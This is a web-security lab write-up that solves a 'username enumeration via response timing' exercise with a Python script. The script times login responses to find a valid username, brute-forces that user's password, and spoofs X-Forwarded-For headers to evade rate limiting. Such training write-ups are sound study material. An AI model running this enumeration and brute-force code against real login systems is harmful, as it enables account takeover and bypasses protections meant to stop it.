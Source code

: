 # Lab: Username enumeration via response timing
## Task
This lab is vulnerable to username enumeration using its response times. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

Your credentials: `wiener:peter`

## Solution
Script:
```python
import requests
import time
from bs4 import BeautifulSoup
from concurrent.futures import ThreadPoolExecutor

URL = 'https://acb71f9d1fcb4d7380c7651b00c600e7.web-security-academy.net/login'

with open('usernames.txt', 'r') as f:
    usernames = f.readlines()

usernames = list(map(lambda x: x.strip(), usernames))

with open('passwords.txt', 'r') as f:
    passwords = f.readlines()

passwords = list(map(lambda x: x.strip(), passwords))

true_username = ''
true_password = ''


def brute_username(username, i):
    start = time.perf_counter()
    resp = requests.post(url=URL,
                         data={'username': username, 'password': 'a' * 100},
                         headers={'X-Forwarded-For': str(i + 100)})
    elapsed = time.perf_counter() - start

    if elapsed > 1:
        global true_username
        true_username = username
        return True
    return False


def brute_password(password, i):
    resp = requests.post(url=URL,
                         data={'username': true_username, 'password': password},
                         headers={'X-Forwarded-For': str(i + 100)})
    if resp.status_code == 302:
        global true_password
        true_password = password
        return True
    return False


for i, username in enumerate(usernames):
    if brute_username(username, i):
        print(true_username)
        break

for i, password in enumerate(passwords):
    if brute_password(password, i):
        print(true_password)
        break
```
